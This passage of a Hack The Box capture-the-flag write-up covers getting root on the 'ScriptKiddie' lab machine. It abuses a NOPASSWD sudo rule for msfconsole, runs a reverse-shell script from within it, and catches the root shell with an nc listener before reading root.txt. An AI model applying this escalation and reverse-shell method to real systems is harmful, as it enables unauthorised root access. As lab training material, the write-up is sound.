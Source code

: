 ## [USER: root] -> Sudo NOPASSWD Metasploit Framework 

List of sudo shows user pwn can `execute metasploit framework as root without password`.

```terminal
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

To escalate privilege to root, simply run the following command:

```terminal
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole
[*] starting the Metasploit Framework console...|

+ -- --=[ 2069 exploits - 1122 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

msf6 > id
[*] exec: id

uid=0(root) gid=0(root) groups=0(root)
```

We managed to get reverse shell as follows:

```terminal
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole
[*] starting the Metasploit Framework console...|

+ -- --=[ 2069 exploits - 1122 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

msf6 > python3 /home/kid/html/rev.py                                                          
[*] exec: python3 /home/kid/html/rev.py

------------------------------------------------------------------------------------

farzul@dugisan3rd:/mnt/hgfs/1337/CTF/HackTheBox/Machine/ScriptKiddie$ nc -nvlp 9191
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::9191
Ncat: Listening on 0.0.0.0:9191
Ncat: Connection from 10.10.10.226.
Ncat: Connection from 10.10.10.226:51324.
root@scriptkiddie:/home/pwn# id
id
uid=0(root) gid=0(root) groups=0(root)
root@scriptkiddie:/home/pwn# wc -c /root/root.txt
wc -c //root/root.txt
33 //root/root.txt
```
